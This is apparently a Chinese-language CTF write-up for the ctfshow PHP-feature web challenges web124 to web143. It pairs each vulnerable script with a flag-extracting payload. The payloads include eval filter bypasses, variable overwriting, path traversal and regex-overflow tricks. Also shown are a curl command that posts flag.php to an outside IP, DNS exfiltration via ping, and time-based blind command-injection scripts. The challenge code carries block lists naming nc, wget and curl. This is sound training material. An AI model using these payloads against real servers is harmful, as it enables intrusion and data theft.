/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

这题其实根本不用理会

```
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
```

这题对c进行了一定的限制，但是影响不大我们可以直接再eval处执行echo $flag;从而拿到flag

这题还有一个考点，由于在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有空格、+、[则会被转化为_，所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.)，但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换

payload:

```
POST:CTF_SHOW=1&CTF[SHOW.COM=1&fun= echo $flag
```


#### web125

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

这题把上题的echo方法和flag关键词ban了

考虑通过二次传参的方法读flag

我一开始考虑了system二次传参的方法，但是system方法应该是被ban掉了

后面尝试highlight_file方法成功读到flag

payload:

```
POST CTF_SHOW=1&CTF[SHOW.COM=1&fun=highlight_file($_GET[1])
GET 1=flag.php
```

其他的 payload：

```php
POST CTF_SHOW=&CTF[SHOW.COM=&fun=var_export(get_defined_vars())
```

#### web126

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

```

基本上ban掉了能读文件的函数

参考[ctfshow-web入门-php特性（web123、web125、web126）_ctfshow web123-CSDN博客](https://blog.csdn.net/Myon5/article/details/140464776)

payload:

```
get：?$fl0g=flag_give_me;
post：CTF_SHOW=&CTF[SHOW.COM=&fun=eval($a[0])
or
GET:?$fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
```

这里的查询字符串没有包含 fl0g，但包含了 $fl0g。由于 PHP 中的变量名不包括 $ 符号，所以 isset($_GET['fl0g']) 仍然会返回 false，即没有检测到 fl0g 参数。

post 传入 CTF_SHOW 和 CTF_SHOW.COM 确保 isset($_POST['CTF_SHOW']) && isset($_POST['CTF_SHOW.COM']) 这部分条件为真，fun=eval($a[0]) 将 eval($a[0]) 的代码传递给 $c。

准确来说，此时的 $_SERVER[‘argv’][0] 就等于 $_SERVER[‘QUERY_STRING’]，$_SERVER["QUERY_STRING"] 就是查询 (query) 的字符串，这是由于 php.ini 开启了register_argc_argv 配置项。

当访问 ?$fl0g=flag_give_me; 时，服务器配置使得查询字符串被传递到 $_SERVER['argv'] 中。
在这种配置下，$_SERVER['argv'][0] 包含了整个查询字符串，即 '$fl0g=flag_give_me;'。

在 eval("$c;"); 中实际执行的是 eval('eval($a[0]);');，因为 $a[0] 是 '$fl0g=flag_give_me;'，这相当于执行了 eval('$fl0g=flag_give_me;');，这样就定义了变量 $fl0g 并赋值为 'flag_give_me'。

最后 判断 if($fl0g === "flag_give_me")，因为 $fl0g 被正确地设置为了 'flag_give_me'，所以这个条件为真，因此，echo $flag; 被执行，输出 $flag。


其他payload:

```
GET:?a=1+fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```

也同样是为了使fl0g=flag_give_me


#### web127

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-10 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-10 21:52:49

*/


error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```

变量覆盖

由于下划线被waf了，我们可以传ctf%20show，php会将空格解析成_

payload:

```
ctf%20show=ilove36d
```


#### web128

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-10 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-12 19:49:05

*/


error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}


function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} 
```
什么是Gettext函数

[PHP: Gettext - Manual](https://www.php.net/manual/zh/book.gettext.php)

骚操作

```
小知识点： _()是一个函数

_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll

get_defined_vars()函数

get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 $flag

payload: ?f1=_&f2=get_defined_vars
```


#### web129

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 03:18:40

*/


error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

stripos() 函数查找字符串在另一字符串中第一次出现的位置

所以我们要考虑在ctfshow前面放点什么，但又不影响我们读文件

可以联想到目录穿越

payload:

```
/ctfshow/../../../../../../../../../../var/www/html/flag.php
```


#### web130

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 05:19:40

*/


error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

> '/.+?ctfshow/is' 后面的i表示大小写匹配，s表示忽略换行符，单行匹配
>
> 在不加转义字符的前提下，前面的点表示任意字符，而“+?”表示非贪婪匹配，即前面的字符至少出现一次
>
> 所以，该正则匹配的意思为：ctfshow前面如果出现任意字符，即匹配准确
>
> 再根据下面的stripos为字符串匹配函数，要求输入的参数必须有“ctfshow”字符，所以输入的参数只需要满足ctfshow前面不加任意字符即可

payload

```
POST f=ctfshow
```


#### web131

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 05:19:40

*/


error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}

```

正则表达式溢出 https://www.laruence.com/2010/06/08/1579.html 

payload:

```
#payload:
<?php
echo str_repeat('very', '250000').'36Dctfshow';
```

不宜过多，过多会


#### web132




/admin

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 06:22:13
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 20:05:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```


第一个判断后面用的是或

也就是说只要使username等于admin即可，前面两个无所谓了

第二个判断让code等于admin即可

payload： 

```
GET:?code=admin&username=admin&password=
```


#### web133

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 16:43:44

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

[ctfshow web133(变量覆盖+无回显命令执行dns_bp带外) - hithub - 博客园](https://www.cnblogs.com/hithub/p/16809053.html)

这其实是一道关于变量覆盖的题目

```
get传参   F=`$F `;sleep 3
经过substr($F,0,6)截取后 得到  `$F `;
也就是会执行 eval("`$F `;");
我们把原来的$F带进去
eval("``$F `;sleep 3`");
也就是说最终会执行  `   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
前面的命令我们不需要管，但是后面的命令我们可以自由控制。
这样就在服务器上成功执行了 sleep 3
所以 最后就是一道无回显的RCE题目了
```

payload:

```
`$F `;cat flag.php | curl -X POST -d @- http://106.55.168.231:7777/
```

curl外带rce




#### web134

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-14 23:01:06

*/

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```



看到extract想起变量覆盖

```
extract($_POST);
//提取$_POST数组
```

payload:

```
?_POST[key1]=36d&_POST[key2]=36d
```


#### web135

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 18:48:03

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

133plus

这题ban了很多命令

但是没ban nl,mv，可以用nl和cp把flag写到其他文件中

payload:

```
`$F `;nl f*>1.txt
`$F `;mv f*>1.txt
```



这题也可以用ping进行外带

```
`$F`;+ping `cat flag.php|awk 'NR==2'`.6x1sys.dnslog.cn
#通过ping命令去带出数据，然后awk NR一排一排的获得数据
```


#### web136

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

这题要用到一个linux的命令tee

> ### Linux [tee](https://so.csdn.net/so/search?q=tee&spm=1001.2101.3001.7020)命令介绍
>
> `tee`命令在Linux中用于从标准输入读取数据，并将其写入到标准输出和一个或多个文件中。`tee`命令通常与其他命令一起通过管道使用。
>
> 如
>
> ```shell
> ls /|tee 1.txt
> ```
>
> 就可以将ls /的结果写入到1.txt文件中

```
ls /|tee 1
```

这题ban掉了.

访问url/1，下载文件1


看到flag的位置

```
?c=cat /f149_15_h3r3|tee 2
```


#### web137

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:27:49

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}


call_user_func($_POST['ctfshow']);
```


我们需要通过post传入一个数组，数组中包含类名和方法名

payload

```
ctfshow[]=ctfshow&ctfshow[]=getFlag
```

又或者

```
ctfshow=ctfshow::getFlag
```


#### web138

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:52:13

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);

```

这道题限制了上一题的第二种解法

第一种还能继续使用

payload:

```
ctfshow[]=ctfshow&ctfshow[]=getFlag
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```


#### web139

```
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

这题看着和前面那题是一样的

但实际上没有写文件的权限

这题可以通过时间盲注攻击获取文件名已经文件中的字符等

时间盲注脚本：

```python
import requests
import time
import string

str = string.ascii_letters + string.digits + "-" + "{" + "}" + "_" + "~"    # 构建一个包含所有字母和数字以及部分符号的字符串，符号可以自己加
result = ""          # 初始化一个空字符串，用于保存结果

#获取多少行
for i in range(1, 99):
    key = 0   #用于控制内层循环(j)的结束

    #不break的情况下，一行最多几个字符
    for j in range(1, 99):
        if key == 1:
            break
        for n in str:       #n就是一个一个的返回值
            payload = "if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)   #{n}是占位符
            #print(payload)
            url = "http://89e3e82d-d133-4a9e-a883-790d41e8a3b8.challenge.ctf.show?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))   #设置超时时间为 2.5 秒,包括连接超时和读取超时，超时就是之前sleep 3了。

            # 如果请求发生异常，表示条件满足，将当前字符 n 添加到结果字符串中，并结束当前内层循环
            except:
                result = result + n
                print(result)
                break
            if n == '~':    #str的最后一位，“~”不常出现，用作结尾
                key = 1
                
    # 在每次获取一个字符后，将一个空格添加到结果字符串中，用于分隔结果的不同位置
    result += " "

```

这个脚本的原理其实就是，通过shell编程中的if语句判断

```
ls /|awk 'NR=={0}'|cut -c {1}
```

中截取到的字符串是否与我们遍历的任一个字符匹配，若匹配成功则使用sleep命令使响应时间变为3s

而脚本通过判断响应时间即可知道截取到的字符是否匹配，从而一个一个字符的获取



读到flag的位置，接下来就是读文件了，原理一样

```python
import requests
import time
import string

str = string.digits+string.ascii_lowercase+"-"+"{"+"}"    
result = ""          

for i in range(1, 99):
    key = 0   
    for j in range(1, 99):
        if key == 1:
            break
        for n in str:      
            payload = "if [ `cat /f149_15_h3r3|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)   
            #print(payload)
            url = "http://a37f8386-b265-4794-b4d1-7e4e62f05859.challenge.ctf.show//?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))   

			except:
                result = result + n
                print(result)
                break
                
    result += " "
```




#### web140

函数的利用

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 12:39:25

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}

```

[原文](https://ctf.show/writeups/743106)

需要`$f1($f2());`的返回值，或者是字母开头的字符串，或者是空数组，或者就是0，或者FLASE。

**payload1**： system(system())---> `f1=system&f2=system`

`string system( string $command[, int &$return_var] )`：成功则返回命令输出的最后一行，失败则返回 FALSE 。system()必须包含参数，失败返回FLASE；system('FLASE')，空指令，失败返回FLASE。

**payload2**： usleep(usleep())---> `f1=usleep&f2=usleep` usleep没有返回值。 所以intval参数为空，失败返回0

**payload3**： getdate(getdate())---> `f1=getdate&f2=getdate`

`array getdate([ int $timestamp = time()] )`：返回结果是array，参数必须是int型。所以getdate(getdate())---->getdate(array型)--->失败返回flase，intval为0。


#### web141

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:28:09

*/

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

```

```
preg_match('/^\W+$/', $v3)
```

此正则表达式用于检查字符串 `$v3` **是否完全由非单词字符组成**，且**不能为空**。（单词字符：字母、数字和下划线）

根据题目我们可以联想到取反，或，异或命令执行，这里随便一个都行

> php中有个有意思的地方，数字是可以和命令进行一些运算的，例如 1-phpinfo();是可以执行phpinfo()命令的。这样就好说了。构造出1-phpinfo()-1就可以了，也就是说 v1=1&v2=1&v3=-phpinfo()-

羽师傅有个取反脚本

```php
<?php
//在命令行中运行

/*author yu22x*/

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';

```

直接用就行


payload:

```
?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)-
```

#### web142

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:36:02

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
```

这题就是一个$d秒后出flag，直接传入v1=0，直接拿到flag

payload:

```
?v1=0
```


#### web143

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 12:48:14

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这题ban掉了取反，只能用其他位运算符构造payload

羽师傅的异或脚本

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
